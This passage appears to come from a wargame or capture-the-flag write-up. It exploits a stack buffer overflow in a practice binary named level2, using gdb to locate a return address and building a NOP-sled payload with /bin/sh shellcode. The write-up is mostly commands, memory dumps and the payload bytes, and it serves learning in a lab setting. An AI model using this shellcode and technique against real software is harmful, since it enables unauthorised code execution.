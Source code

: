 5. Find the correct return address
   The idea is to find the return address to execute the shellcode.

```bash
# Initial Buffer
BUFFER (64) | SAVE FRAME POINTER (16) | RETURN ADDRESS (4)
0 --------- 64 ---------------------- 80 -------------- 84

# Exploit
NopSled (80-28) | SHELLCODE (28) | RETURN ADDRESS (4)
0 ------------- 52 ------------- 80 -------------- 84
        ┌────>──  exec(/bin/sh)         │
        └─<─────<─────<─────<─────<─────┘
```

NopSled is an instruction that does nothing and goes to the next memory bit.
We can point to the middle of the buffer and it should sled until the shellcode.

Lets find the middle of the buffer.

```bash
gdb-peda$ pdisass p
# Breakpoint before leave instuction
gdb-peda$ b *0x0804853d (p leave)
# Run with an input of 80 chars + return address of ret address of p function
gdb-peda$ run <<< $(python -c 'print "a" * 80 + "\x3e\x85\x04\x08"')

gdb-peda$ x/100xg $esp
0xbffff5e0: 0x00000000bffff5fc 0xb7e5ec7300000000
0xbffff5f0: 0x00000000080482b5 0x6161616100c30000
0xbffff600: 0x6161616161616161 0x6161616161616161
0xbffff610: 0x6161616161616161 0x6161616161616161 <<< --- take this address
0xbffff620: 0x6161616161616161 0x6161616161616161
0xbffff630: 0x6161616161616161 0x0804853e61616161
0xbffff640: 0x6161616161616161 0x0804853e61616161
0xbffff650: 0x0000000008048500 0xb7e454d300000000
0xbffff660: 0xbffff6f400000001 0xb7fdc858bffff6fc
0xbffff670: 0xbffff61c00000000 0x00000000bffff6fc
0xbffff680: 0xb7fd0ff408048260 0x0000000000000000
0xbffff690: 0xebd85d4f00000000 0x00000000dc9db95f
```

`0xbffff610` is the middle of the buffer, we will take this one as fake return address.

In little endian, it gives us => `0x10f6ffbf`

Lets try

```bash
# python -c 'print(nopSled + shellcode + retAddress)' > /tmp/exploit
python -c 'print(
  "\x90" * 52 +
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" +
  "\x10\xf6\xff\xbf"
)' > /tmp/exploit

~/level2 < /tmp/exploit
> (0xbffff610)

> echo $?
> 1
```
